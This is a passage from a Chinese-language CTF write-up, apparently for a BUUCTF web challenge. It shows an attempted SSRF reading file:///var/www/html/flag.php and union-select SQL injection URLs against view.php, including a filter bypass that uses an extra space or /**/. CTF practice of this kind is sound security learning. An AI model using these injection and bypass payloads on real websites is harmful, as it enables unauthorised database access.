 尝试直接写 `file:///var/www/html/flag.php` 提示 blog is not valid

换成 `https://www.baidu.com` 注册成功

![](assets/202208251035895-17007445962535.png)

点开后右键

![](assets/202208251035207-17007445962537.png)

base64 解码的内容刚好是百度的 html 源码

url 地址如下

```
http://9bc3b55a-fc52-4df4-93b7-080bf0dbc873.node4.buuoj.cn:81/view.php?no=1
```

测试之后发现存在 sql 注入

```
http://9bc3b55a-fc52-4df4-93b7-080bf0dbc873.node4.buuoj.cn:81/view.php?no=1 union select 1,2,3,4
```

提示 `no hack ~_~`

union 和 select 之间多加一个空格就能绕过了, `/**/` 也可以

```
http://9bc3b55a-fc52-4df4-93b7-080bf0dbc873.node4.buuoj.cn:81/view.php?no=-1 union  select 1,2,3,4
```
